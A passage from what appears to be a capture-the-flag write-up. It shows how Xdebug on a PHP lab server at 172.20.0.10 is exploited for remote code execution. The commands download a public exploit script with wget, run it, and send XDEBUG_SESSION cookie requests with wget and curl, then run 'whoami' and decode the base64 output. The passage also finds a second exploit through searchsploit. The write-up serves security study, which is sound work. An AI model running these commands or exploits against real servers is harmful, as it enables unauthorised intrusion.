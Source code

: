Now I can turn to **Hack Tricks** to find some way to exploit Xdebug (**"xdebug hacktricks"**) and get an **RCE**, as always this resource has everything I need in their **[PHP Tricks](https://book.hacktricks.xyz/network-services-pentesting/pentesting-web/php-tricks-esp){:target="_blank"}** article, where I can download an exploit (**[nqxcode/xdebug-exploit](https://github.com/nqxcode/xdebug-exploit/blob/master/exploit_shell.py){:target="_blank"}**), I haven't checked yet if it works for the server version of **Xdebug** but I'll run it to see if I have any luck. I analyze a little the script code, it mounts a server on port **9000** and with `wget` performs the exploit using a cookie. I already have a **RCE**, only that the results are returned in **Base64** encoding. There is also an exploit that I found with `searchsploit`, it uses another cookie in addition to using `curl`, the exploit is also successful this command.

> **[Xdebug](https://craftquest.io/courses/debugging-with-xdebug/35870){:target="_blank"}** is, at its core, step debug­ger that has tight integr­tion with IDEs to make it real­ly sim­ple to set break­points in PHP code to gain insight into what your code is doing dur­ing runtime. Xdebug is a PHP exten­sion and has to be installed and compiled with PHP.

```bash
wget https://raw.githubusercontent.com/nqxcode/xdebug-exploit/master/exploit_shell.py

python2 exploit_shell.py
wget -q -O - "http://172.20.0.10/info.php?XDEBUG_SESSION_START=phpstorm --header 'X-Forwarded-For: 172.20.0.10'"
system("whoami")
echo d3d3LWRhdGE= | base64 -d; echo


searchsploit xdebug
searchsploit -x php/remote/44568.rb
python2 exploit_shell.py
curl -s -X GET "http://172.20.0.10/info.php" -H "Cookie: XDEBUG_SESSION=oldboy"
system("whoami")
echo d3d3LWRhdGE= | base64 -d; echo
```

<br/>
<img src="{{ site.img_path }}/static_writeup/Static_55.png" width="100%" style="margin: 0 auto;display: block
; max-width: 900px;">
<br/>
<img src="{{ site.img_path }}/static_writeup/Static_56.png" width="100%" style="margin: 0 auto;display: block
; max-width: 900px;">
<br/>
<img src="{{ site.img_path }}/static_writeup/Static_57.png" width="100%" style="margin: 0 auto;display: block
; max-width: 900px;">
<br/>
<img src="{{ site.img_path }}/static_writeup/Static_58.png" width="100%" style="margin: 0 auto;display: block
; max-width: 900px;">
<br/>
<img src="{{ site.img_path }}/static_writeup/Static_59.png" width="100%" style="margin: 0 auto;display: block
; max-width: 900px;">
<br/><br/>
